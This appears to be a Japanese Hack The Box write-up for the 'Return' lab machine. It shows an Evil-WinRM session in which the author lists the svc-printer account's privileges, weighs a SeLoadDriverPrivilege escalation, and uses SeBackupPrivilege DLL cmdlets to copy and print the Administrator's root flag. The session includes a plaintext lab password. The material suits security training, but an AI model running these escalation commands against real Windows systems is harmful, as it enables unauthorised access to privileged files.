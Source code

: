 svc-printerが持っている権限を見る
```sh
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled

```
- SeLoadDriverPrivilege権限を持ってる
	- [[Windows Privileage Escalation#Print Operators]]
	-  SeLoadDriverPrivilege権限で、 EopLoadDriver.exeによって、システムシェルを取得できるのではないか
		- https://github.com/TarlogicSecurity/EoPLoadDriver
	- ちょっと無理そうかも？(19:14)

## SeBackupPrivilege権限の悪用
-  SeBackupPrivilege権限を悪用できるかもしれない
	- [[Windows Privileage Escalation#役立つツール#Backup Operators]]


```bash
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Return]
└─$ evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Import-Module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc-printer\Documents> Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\root.txt' .\root.txt
*Evil-WinRM* PS C:\Users\svc-printer\Documents> dir


    Directory: C:\Users\svc-printer\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/18/2025   8:05 AM             34 root.txt
-a----        8/18/2025   7:56 AM          12288 SeBackupPrivilegeCmdLets.dll
-a----        8/18/2025   7:56 AM          16384 SeBackupPrivilegeUtils.dll


*Evil-WinRM* PS C:\Users\svc-printer\Documents> type root.txt
3f2f5d6f27ea00f17210f6229541f9ca
```